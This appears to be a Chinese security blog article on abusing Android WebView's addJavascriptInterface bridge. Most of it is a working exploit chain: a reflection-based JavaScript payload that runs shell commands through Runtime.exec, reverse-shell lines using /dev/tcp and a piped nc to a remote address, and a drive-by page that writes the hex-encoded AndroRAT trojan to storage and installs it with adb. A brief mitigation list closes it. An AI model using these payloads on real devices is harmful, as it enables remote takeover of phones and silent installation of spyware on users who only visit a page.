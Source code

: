 # WebView中接口隐患与手机挂马利用

0x00 背景
-------

* * *

在android的sdk中封装了webView控件。这个控件主要用开控制的网页浏览。在程序中装载webView控件，可以设置属性（颜色，字体等）。类似PC下directUI的功能。在webView 下有一个非常特殊的接口函数addJavascriptInterface。能实现本地java和js的交互。利用addJavascriptInterface这个接口函数可实现穿透webkit控制android 本机。

0x01 检测利用
---------

* * *

一般使用html 来设计应用页面的几乎不可避免的使用到addJavascriptInterface，包含不限于android浏览器。

在android 代码程序一般是这样使用：

```
settings.setJavaScriptEnabled(true);
settings.setJavaScriptCanOpenWindowsAutomatically(true);
mWebView.addJavascriptInterface(new JSInvokeClass(), "js2java");

```

这里可以用

```
apk->zip->dex->dex2jar->jdgui->java

```

代码来查找。

但建议用apktool 反编译smali（毕竟不是所有apk都能反编译成java代码）

在smali代码中 则是类似下列的代码：

```
const-string v0, " js2java "
invoke-virtual {p1, v1, v0},Lcom/tiantianmini/android/browser/module/ac;->addJavascriptInterface(Ljava/lang/Object;Ljava/lang/String;)V

```

当检测到存在上述代码时，可以进行进一步验证利用：

在11年，已经有人利用addJavascriptInterface进行文件读写，并放出简单的poc,到12年出现了简单的执行代码的exp。利用的是反射回调java类的内置静态变量。如下列的利用代码；

```
<script>
function execute(cmdArgs)
{
    return js2java.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
…
</script>   

```

利用java的exec执行linux的shell命令。

0x02 远程获取shell
--------------

* * *

套用yuange的一句话：Poc远远小于exp的价值。

利用addJavascriptInterface实现shell.

Android内部的armlinux 是没有busybox 的，一些常规弹shell的方法被限制。

使用了java的反弹shell方法

```
//execute(["/system/bin/sh","-c","exec 5<>/dev/tcp/192.168.1.9/8088;cat <&5 | while read line; do $line 2>&5 >&5; done"]);

```

在Nexus One 4.3的android虚拟机 并未成功弹出shell.

后发现android中可执行 nc命令 （阉割版的不带-e的nc）

这里用了nc的另外一种弹shell的方法完成

Exp 内容：

```
<script>
function execute(cmdArgs)
{
return XXX.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
execute(["/system/bin/sh","-c","nc 192.168.1.9 8088|/system/bin/sh|nc 192.168.1.9 9999"]);
alert("ok3");
</script>

```

// 注 xxx 保护隐私用xx代指。

效果如下 ￼![enter image description here](http://drops.javaweb.org/uploads/images/43421823c10981f61790800e6b2439aff621c4f1.jpg)

当然可以用远程IP地址。

0x03 远程挂马
---------

* * *

毕竟是android环境，shell使用不是很方便。类似xsser肯定不满足于此。

再升华下，实现网页挂马。

Android 4.1已经加入ASLR技术,堆喷射之类不再有效。UAF要针对android的内核版本。利用自身特性的漏洞是目前比较靠谱的方法。

这里以androrat远控木马为例。

实现网页挂马

大部分浏览器已经对下载文件进行保存提示。这里需要把andrat.apk写到挂马网页之中。

```
<script>
function execute(cmdArgs)
{
return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 

var armBinary = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4x80x22x61xE3xAAx42x4DxC7x22x86x4Ax91xA8x14xC4x0Ax56x7CxC2x27x68x1Cx39x57x0Ax53x11x3Bx63x37x06xFEx01x33x1Bx43x17x36x56xFEx07xACx6Dx9FxCBx1Dx3Dx
……
var patharm = "/data/app/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary+ > " + patharm]);
execute(["chmod"," 755 ","/data/app/Androrat.apk"]);

```

这样存在几个问题：

andrat.apk的 hex value大约300k,浏览器或者java的exec可能对传入参数大小有限制，（测试的浏览器有限制无法执行）

/data/app/ 目录存在权限问题，需要root，chmod 也是同理。

Android这种静默安装要么是有root或者系统签名的install权限，要么是做成预装软件的样子并且重启。或者是2.2 版本左右可以 通过调用隐藏api安装。

经过进行fuzz实验，完成了挂马功能：

```
<script>
function execute(cmdArgs)
{
return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 

var armBinary1 = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4

var armBinary2="x1BxB0x65x0AxADx23xC2x30x64xDFxEExA1x0DxA4xE8x3Fx61x80xEExBCxE1xE7x7Bx4Ax25x6Fx8Bx36x71xC3x80x81x58xDBxC9x8Fx53x9FxEEx8Ax45xAFx23x54x4AxCFx2Bx52xF2x33x84xBAx82x36xC4x0Dx08xAFxC2x61x8ExD8x7Bx0BxFCx88x4Ax25x24x8Cx22xFAx76x44x78x5Ex99x62x30x44x8DxDBx74x94

var armBinary3=…
var armBinary4=…
……
var patharm = "/mnt/sdcard/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary1+ > " + patharm]);
//alert(a);
execute(["/system/bin/sh","-c","echo -n +armBinary2+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo  -n +armBinary3+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo -n +armBinary4+ >> " + patharm]);
execute(["/system/bin/sh","-c","adb install /mnt/sdcard/Androrat.apk"]);
alert("over !!!");
</script>

```

将androrat.apk拆分。

利用echo写入到sdcard中（此目录可读可写 不可执行）。

利用自身带的adb进行安装（安装各种xx手机助手的不在少数吧）。 ￼![enter image description here](http://drops.javaweb.org/uploads/images/f5f8fdbe47c7140f4c379735315cfccef0dc2f71.jpg)

Androrat 成功安装，这里使用了androrat的debug=true模式。

![enter image description here](http://drops.javaweb.org/uploads/images/f10571991f53b1609dbdfe976406534c672c6ea6.jpg)

成功连接到控制端。

0x04 修复
-------

* * *

1、Android 4.2 （api17）已经开始采用新的接口函数【java中应该叫方法：） 】，@JavascriptInterface 代替addjavascriptInterface, 有些android 2.3不再升级，浏览器需要兼容。

2、在使用js2java的bridge时候，需要对每个传入的参数进行验证，屏蔽攻击代码。

3、控制相关权限或者尽可能不要使用js2java的bridge。

Link:[http://developer.android.com/reference/android/webkit/WebView.html](http://developer.android.com/reference/android/webkit/WebView.html)[http://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface(java.lang.Object, java.lang.String)](http://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29)[http://www.cis.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf](http://www.cis.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf)[http://50.56.33.56/blog/?p=314](http://50.56.33.56/blog/?p=314)